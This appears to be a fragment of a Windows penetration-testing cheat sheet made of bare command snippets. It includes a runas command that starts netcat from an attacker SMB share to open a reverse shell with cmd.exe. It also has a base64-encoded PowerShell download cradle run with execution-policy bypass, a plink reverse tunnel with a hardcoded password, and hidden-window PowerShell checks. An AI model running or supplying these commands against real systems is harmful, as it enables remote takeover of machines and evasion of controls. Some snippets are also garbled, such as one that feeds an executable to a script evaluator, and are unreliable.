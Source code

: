 ```bash
```
```bash
C:\Windows\System32\runas.exe /env /noprofile /user:Test "//$source_ip/$smb_share/tools_windows/bin/nc.exe -nc $source_ip $source_port -e cmd.exe"
```
```bash
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://$source_ip/tools_windows/bin/nc.exe')"
encode="`echo $scriptblock | iconv -to-code UTF-16LE | base64 -w 0`”
command="cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc $encode"
```





## Glossery 
```
plink.exe -l root -pw mysecretpassword 192.168.0.101 -R 8080:127.0.0.1:8080
```
```
rdesktop (ip) -r disk:share=/home/share
```
Refresh group policy:
```
gpupdate /force
```
Search for a specific file (wildcards are supported)
```
dir /S /P "filename"
```

Test to see if we can run Powershell:
```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni -nop -i None -ex Bypass -C "get-host"
```

Test to see if we can run Powershell Version 2:
```
@"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -Version 2 -w hidden -noni -nop -i None -ex Bypass -C "$PSVersionTable"
```